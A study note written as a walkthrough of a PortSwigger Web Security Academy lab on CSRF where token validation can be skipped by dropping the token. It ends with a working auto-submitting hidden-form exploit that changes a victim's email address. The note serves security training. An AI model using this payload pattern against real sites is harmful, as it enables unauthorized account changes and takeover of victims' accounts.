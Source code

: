 ```yaml
---
tags:
  - PRACTITIONER
Link:
  - "[[CSRF]]"
External Link:
  - https://portswigger.net/web-security/csrf/bypassing-token-validation/lab-token-validation-depends-on-token-being-present
---
```


# CSRF where token validation depends on token being present
---

- **Info:**
	- Vulnerable parameter - email change functionality
	- Goal - exploit the CSRF vulnerability to change the email address of the victim user
	- creds - `wiener:peter`

-  **Analysis:**
	- In order for CSRF attack to be possible:
		- A relevant action - ***email change functionality***
		- Cookie-based session handling - ***session cookie***
		- No unpredictable request parameters - ***CSRF token is not mandatory***

- **Testing CSRF Tokens:**
	1.  Remove CSRF token. and see if application accepts request.
	2. Change the request method from POST to GET

 - **Craft exploit**
```html
<html>
	<body>
		<h1>Hello World!</h1>
		<iframe style="display: none" name="csrf-iframe"></iframe>
		<form action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email" method="POST" target="csrf-iframe">
			<input type="hidden" name="email" value="anything@normal-user.net" >
		</form>
		<script>
			document.forms[0].submit();
		</script>
	</body>
</html>
```






